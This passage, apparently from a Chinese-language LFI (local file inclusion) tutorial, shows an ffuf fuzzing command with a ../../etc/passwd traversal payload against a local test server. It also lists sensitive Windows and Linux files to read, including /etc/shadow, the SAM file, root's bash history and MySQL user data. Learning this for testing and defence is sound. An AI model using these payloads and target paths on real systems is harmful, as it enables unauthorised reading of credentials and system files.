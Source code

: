 
### **FUZZ**：

```sh
sudo ffuf -c -ac -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://127.0.0.1:8707?FUZZ=../../.
./../../etc/passwd
```

### **Payload 字典**：  
   
   使用 `/usr/share/wordlists/seclists/Fuzzing/LFI/` 中的预定义 Payload（如 `LFI-Jhaddix.txt`）。  




## 六、常见系统文件路径

### Windows：

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
```
### Linux：

```
/etc/passwd #查看用户文件
/etc/shadow #查看密码文件，如果能读取该文件说明是root权限
/etc/os-release #查看操作系统版本
/root/.bash_history #查看历史命令
/var/lib/mlocate/mlocate.db #本地所有文件信息
/etc/ssh/sshd_config #ssh配置文件，如果对外开放可看到端口
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/root/.ssh/known_hosts
/etc/httpd/conf/httpd.conf #查看apache的配置文件
```

### 程序配置文件

### apache：

```text
/etc/httpd/conf/httpd.conf
/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
```
